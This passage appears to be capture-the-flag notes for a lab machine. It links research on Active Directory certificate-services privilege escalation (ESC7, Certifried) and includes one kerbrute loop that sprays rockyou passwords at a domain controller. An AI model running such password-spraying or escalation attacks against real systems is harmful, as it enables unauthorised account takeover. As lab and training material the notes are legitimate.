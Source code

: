 
## Resources

- [Certified Pre-Owned. Active Directory Certificate Services… | by Will Schroeder | Posts By SpecterOps Team Members](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Certified_Pre-Owned.pdf (specterops.io)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [AD CS Domain Escalation - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
- [Certifried: Active Directory Domain Privilege Escalation (CVE-2022–26923) | by Oliver Lyak | IFCR](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [GitHub - arth0sz/Practice-AD-CS-Domain-Escalation: Introductory guide on the configuration and subsequent exploitation of Active Directory Certificate Services with Certipy. Based on the white paper Certified Pre-Owned.](https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation#vulnerable-certificate-authority-access-control---esc7)



we can also do this  with Certify [AD CS: weaponizing the ESC7 attack | BlackArrow - Tarlogic](https://www.tarlogic.com/blog/ad-cs-esc7-attack/)

read about the wordlist in
[Active Directory Enumeration & Attacks - HTB Academy (CPTS) (gitbook.io)](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks)


```
for pass in $(cat /usr/share/wordlists/rockyou.txt); do ./kerbrute_linux_amd64 passwordspray --dc 10.10.11.236 -d manager.htb users.txt $pass
```
